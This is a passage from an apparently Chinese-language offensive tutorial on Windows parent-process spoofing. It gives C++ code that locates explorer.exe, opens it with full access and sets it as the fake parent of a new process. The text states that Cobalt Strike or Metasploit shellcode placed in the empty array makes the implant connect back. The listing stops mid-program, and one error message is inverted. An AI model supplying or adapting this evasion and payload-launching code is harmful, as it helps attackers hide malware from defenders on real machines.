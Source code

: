 启动线程

```c++
ResumeThread(pInfo.hThread); 
```

完整代码如下，这里shellcode可以用cs的shellcode或者msf的shellcode，生成之后就可以上线

```c++
// Parent spoofing.cpp : 此文件包含 "main" 函数。程序执行将在此处开始并结束。
//

#include <iostream>
#include <windows.h>
#include <TlHelp32.h>

DWORD getParentProcessID() 
{
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 process = { 0 };
    process.dwSize = sizeof(process);

    if (Process32First(snapshot, &process)) 
    {
        do 
        {
            if (!wcscmp(process.szExeFile, L"explorer.exe"))
            {
                printf("Find explorer failed!\n");
                break;
            }
        } while (Process32Next(snapshot, &process));
    }

    CloseHandle(snapshot);
    return process.th32ProcessID;
}

int main() 
{
    unsigned char shellCode[] ="";

    STARTUPINFOEXA sInfoEX;
    PROCESS_INFORMATION pInfo;
    SIZE_T sizeT;

    //打开explorer进程获取当前进程所有权限
    HANDLE expHandle = OpenProcess(PROCESS_ALL_ACCESS, false, getParentProcessID()); 

    //用0填充数组
    ZeroMemory(&sInfoEX, sizeof(STARTUPINFOEXA)); 

    //初始化指定的属性列表,创建进程和线程
    InitializeProcThreadAttributeList(NULL, 1, 0, &sizeT);

    //设置进程属性并从堆中分配内存
    sInfoEX.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, sizeT); 

    InitializeProcThreadAttributeList(sInfoEX.lpAttributeList, 1, 0, &sizeT);

    //更新用于进程和线程创建的属性列表中的指定属性
    UpdateProcThreadAttribute(sInfoEX.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &expHandle, sizeof(HANDLE), NULL, NULL); 

    sInfoEX.StartupInfo.cb = sizeof(STARTUPINFOEXA);
```